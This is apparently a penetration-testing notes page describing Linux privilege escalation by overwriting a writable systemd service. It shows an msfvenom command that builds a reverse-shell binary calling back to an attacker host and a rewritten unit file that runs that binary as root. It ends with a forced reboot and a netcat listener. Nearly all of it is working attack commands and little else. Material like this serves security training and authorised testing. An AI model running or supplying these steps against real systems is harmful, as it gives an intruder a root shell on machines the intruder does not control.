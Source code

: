 ```yaml
---
description: Root access with writable services.
---
```


# Writable services

(root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff&#x20;

OR&#x20;

have enough privilege to restart the service or host

The most important parameters here are :&#x20;

* User : The user that the service will run as.&#x20;
* Execstart : It specifies the command that will run when the service starts.

Now we want to get shell as root. There are many ways to do so with systemd services.

```
$ cat /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/test/restjson_test
ExecStart=flask run -h 0.0.0.0 -p 30000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 -f elf -o reverse.elf
```

```
echo "
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/test/restjson_test
ExecStart=/tmp/reverse.elf
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
" > pythonapp.service
```

```
sudo reboot --reboot -f

$ nc -nvlp 80
```
